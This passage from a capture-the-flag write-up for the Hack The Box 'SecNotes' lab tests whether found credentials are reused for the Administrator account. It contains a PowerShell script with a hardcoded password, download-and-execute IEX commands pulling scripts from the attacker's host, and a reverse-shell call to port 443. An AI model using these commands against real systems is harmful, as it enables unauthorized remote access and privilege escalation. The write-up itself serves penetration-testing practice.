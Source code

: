 # RunAs to check for password reuse.

We have two creds here, one is tyler's the other is from the MySQL DB. First we host the RunAs.ps1 script with Python HTTP server
```shell
root@Kali:~/HTB/SecNotes# cat RunAs.ps1 
$secpasswd = ConvertTo-SecureString "92g!mA8BGjOirkL%OG*&" -AsPlainText -Force 
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd)
Start-Process -FilePath "powershell.exe" -ArgumentList "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.78/rshell.ps1')" -Credential $mycreds
```

Then on target we do Powershell IEX
```shell
PS C:\Users\tyler\Temp> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.78/RunAs.ps1')
PS C:\Users\tyler\Temp> rshell : This command cannot be run due to the error: The user name or password is incorrect.
At line:90 char:1
+ rshell -Reverse -IPAddress 10.10.14.78 -Port 443
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorException
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorException,rshell
```
On the Python server we see that RunAs.ps1 was downloaded but not rshell.ps1 because the authentication failed.
```shell
root@Kali:~/HTB/SecNotes# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.97 - - [12/Oct/2020 23:37:48] "GET /RunAs.ps1 HTTP/1.1" 200 -
```
Same with the MySQL creds. Moving on.